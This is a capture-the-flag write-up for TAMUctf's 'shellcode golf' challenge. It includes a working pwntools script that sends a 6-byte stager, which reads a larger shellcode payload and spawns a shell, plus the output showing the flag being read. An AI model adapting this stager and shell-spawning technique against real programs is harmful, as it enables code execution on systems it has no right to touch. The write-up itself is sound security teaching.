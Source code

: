 # shellcode golf

I'll execute any shellcode you give me, but only 6 bytes of it.  I bet you can't get the flag!  
`nc challenges.tamuctf.com 5321`

(provide binary)

## Solution

In one of my proudest moments ever, I present... 6 bytes to shellcode (sorta)!

```python
from pwn import *

context.arch = 'x86_64'

initial = asm('xchg %esi,%edx;xor %edi,%edi;syscall')
payload = asm('nop') * 7 + asm(shellcraft.sh())

print("initial payload is", len(initial), "bytes")

# p = elf.debug()
p = process('./shellcode-golf')
# p = remote('35.226.243.146', 5320)

p.sendline(initial)
p.sendline(payload)

p.interactive()
```

This takes advantage of the fact that mmap actually allocates at least one page of memory: https://man7.org/linux/man-pages/man2/mmap.2.html

This is typically around 4096 bytes on x86_64 (citation needed, I just remember this number and might be wrong, but oh well). If we can read more than the 6 bytes allowed by fgets, then we can overcome the limitation.

To do this, we need to invoke the `read` syscall, with 0 in %rax and %rdi and the pointer to the region we want to overwrite in %rsi. Provided %rdx is arbitrarily larger than our shellcode, we don't actually need to worry about the length because we can simply wait for `read` to timeout.

Helpfully, %rdx already contains our target buffer (or near enough) due to the indirect call and %rax already contains 0. This gives us the following shellcode:

```asm
xchg %esi, %edx     ; shorter than mov -- this is two bytes
xor %edi, %edi      ; again, shorter because we're using the 32-bit register
syscall
```

Firing this at the target, we get:

```
initial payload is 6 bytes
[+] Opening connection to xxx.xxx.xxx.xxx on port 5321: Done
[*] Switching to interactive mode
$ cat flag.txt
gigem{m1nIm4L_5h3llc0d3_48b55e}$ 
```
